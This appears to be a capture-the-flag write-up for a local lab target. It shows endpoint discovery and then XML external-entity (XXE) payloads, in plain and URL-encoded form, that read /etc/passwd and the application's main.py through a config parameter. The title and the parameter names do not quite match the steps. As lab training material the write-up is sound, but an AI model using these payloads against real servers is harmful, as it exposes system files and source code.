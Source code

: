 # Encrypted Pastebin - FLAG0

## 0x00 Home

![](./imgs/home.jpg)

Tried couple of different code but all show errors.

```
Code incorrect. Expected 06947342
```

## 0x01 Directory

Try scan sub directory with Burp

![](./imgs/directory.jpg)

And there is a comment in source code.

http://127.0.0.1/xxxxxxxxxx/admin

![](./imgs/admin.jpg)

## 0x02 get-config

http://127.0.0.1/xxxxxxxxxx/get-config

Looks like some config thing using XML

![](./imgs/get-config.jpg)

## 0x03 set-config

http://127.0.0.1/xxxxxxxxxx/set-config

It actually exist but may need parameter to set the XML

![](./imgs/set-config.jpg)

## 0x04 XXE

Prepare the XXE payload.

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "/etc/passwd">]><config><location>&xxe;</location></config>
```

And encode to [url format][1] 

```
%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E
```

http://127.0.0.1/xxxxxxxxxx/get-config?param=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![](./imgs/param.jpg)

Successfully write in XXE and 302 redirect to admin page and read out /etc/passwd

![](./imgs/passwd.jpg)

## 0x05 main.py

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>
```

http://127.0.0.1/xxxxxxxxxx/get-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22main.py%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

Execute and get the FLAG in the [main.py][2]

![](./imgs/flag.jpg)

[1]: https://www.urlencoder.org/
[2]: ./main.py